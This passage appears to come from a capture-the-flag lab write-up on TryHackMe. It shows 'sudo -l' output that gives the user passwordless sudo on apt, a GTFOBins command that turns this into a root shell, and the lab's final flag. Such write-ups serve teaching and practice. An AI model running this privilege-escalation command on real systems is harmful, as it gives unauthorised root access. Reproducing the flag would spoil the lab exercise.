 ```console
cobra@thm-lamp:~$ sudo -l
Matching Defaults entries for cobra on thm-lamp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cobra may run the following commands on thm-lamp:
    (ALL) NOPASSWD: /usr/bin/apt
```

This means that the `cobra` user has the ability to run the `apt` command as root without a password. Since apt can be used to execute commands as root,

I am searching the [`GTFOBins`](https://gtfobins.github.io/gtfobins/apt/#sudo) database to find a method for leveraging `apt` for privilege escalation

I use the following command:
```
cobra@thm-lamp:~$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
```

to gain access to a shell with root privileges. Now, I can proceed to the next part of the task – locate and read the final flag.

**FLAG : THM{7b88ac4f52cd8723a8d0c632c2d930ba}**
